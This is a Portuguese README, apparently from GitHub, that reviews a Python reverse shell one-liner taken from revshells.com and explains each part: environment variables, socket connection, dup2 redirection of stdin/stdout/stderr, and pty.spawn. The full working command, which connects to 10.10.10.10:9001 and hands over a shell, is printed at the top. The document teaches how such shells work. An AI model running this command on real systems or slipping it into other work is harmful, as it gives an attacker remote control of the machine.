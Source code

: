 
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>📜  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o [Reverse Shell Generator](https://www.revshells.com/). É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

Todo mundo sempre copia e cola um ou outro código de Shell reverso e percebendo isso resolvi questionar como realmente funciona um Reverse Shell. Será mesmo que é só copiar ou colar? Porque não podemos ir a fundo e ver oque podemos aprender com isso? Bora lá!


<h3>👾  O código</h3>

~~~shellscript
RHOST="10.10.10.10";export RPORT=9001;python
-c 'import sys,socket,os,pty;s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
~~~~
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!

<h3>👨‍💻🔎   Analisando o código</h3>

1)
~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
~~~~
Essas são duas instruções export em shell que definem variáveis de ambiente. RHOST é definido como o endereço IP do servidor remoto (neste caso, "10.10.10.10"), e RPORT é definido como o número da porta (neste caso, 9001).

2)
~~~shellscript
python -c '... '
~~~~
 Isso inicia a execução do Python com um comando inline. O código Python entre as 'aspas' simples será executado.
 
 3)
 ~~~shellscript
import sys,socket,os,pty;
~~~~
 Isso importa os módulos Python necessários para a execução do código:
 
  * sys: Fornece acesso a variáveis e funções relacionadas ao sistema.
  * socket: Permite a criação de soquetes para comunicação em rede.
  * os: Fornece funcionalidades relacionadas ao sistema operacional.
  * pty: É usado para interagir com terminais pseudo-TTY.

 4)
 ~~~shellscript
s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
~~~~

Aqui, um objeto de soquete (s) é criado usando a classe socket.socket(). Em seguida, é estabelecida uma conexão com o servidor remoto usando o endereço IP e a porta definidos nas variáveis de ambiente RHOST e RPORT. os.getenv é usado para acessar os valores das variáveis de ambiente definidas anteriormente.

 5)
 ~~~shellscript
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
~~~~
Este é um list comprehension que duplica os descritores de arquivo padrão (stdin, stdout e stderr) para o soquete criado. Isso redireciona a entrada e saída padrão para a conexão de rede, permitindo que comandos sejam enviados e recebidos pelo servidor remoto.

 6)
 ~~~shellscript
pty.spawn("sh")
~~~~
Finalmente, a função pty.spawn é usada para criar um shell interativo no servidor remoto. Isso permite que o usuário interaja com o servidor remoto como se estivesse no prompt de comando do servidor.

Em resumo, este código Python é um exemplo de um "one-liner" que estabelece uma conexão de rede com um servidor remoto e cria um shell interativo para interagir com o servidor. É importante notar que esse tipo de código pode ser usado para fins maliciosos, portanto, deve ser usado com responsabilidade e apenas em ambientes autorizados.








